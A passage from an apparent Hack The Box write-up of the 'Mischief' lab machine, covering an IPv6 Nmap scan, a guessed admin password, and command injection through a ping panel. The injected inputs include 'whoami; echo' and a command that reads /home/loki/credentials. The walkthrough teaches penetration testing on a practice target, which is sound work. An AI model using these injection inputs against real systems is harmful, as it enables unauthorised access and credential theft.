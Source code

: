 ## Enumerating IPv6 services

Running an Nmap scan on the IPv6 address:
```markdown
nmap -sC -sV -o nmap/mischief_ipv6.nmap -6 dead:beef::250:56ff:feb9:b8fb
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 2a:90:a6:b1:e6:33:85:07:15:b2:ee:a7:b9:46:77:52 (RSA)
|   256 d0:d7:00:7c:3b:b0:a6:32:b2:29:17:8d:69:a6:84:3f (ECDSA)
|_  256 3f:1c:77:93:5c:c0:6c:ea:26:f4:bb:6c:59:e9:7c:b0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 400 Bad Request
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| address-info:
|   IPv6 EUI-64:
|     MAC address:
|       address: 00:50:56:b9:b8:fb
|_      manuf: VMware
```

## Checking HTTP (Port 80)

Browsing to the IPv6 page:
```markdown
http://[dead:beef::250:56ff:feb9:b8fb]
```

On the web page it says _"Command Execution Panel"_ as the title and there is a button to _Login_.

![Login page](https://kyuu-ji.github.io/htb-write-up/mischief/mischief_web-1.png)

The credentials don't work as they are, but after guessing some common usernames, the second password _"trickeryanddeceit"_ works with the username _administrator_ and logs us in.
Now it looks like a tool to execute system commands:

![Command Execution Panel](https://kyuu-ji.github.io/htb-write-up/mischief/mischief_web-2.png)

Pinging localhost gets executed successfully and also pinging our local client works successfully.
When putting a semicolon after the ping, it is possible to execute other commands and shows the output on the screen:
```markdown
whoami; echo
```

![Command Execution](https://kyuu-ji.github.io/htb-write-up/mischief/mischief_web-3.png)

It says that there is a file called _credentials_ in the home directory, so lets read that:
```markdown
cat /home/loki/credentials; echo
```
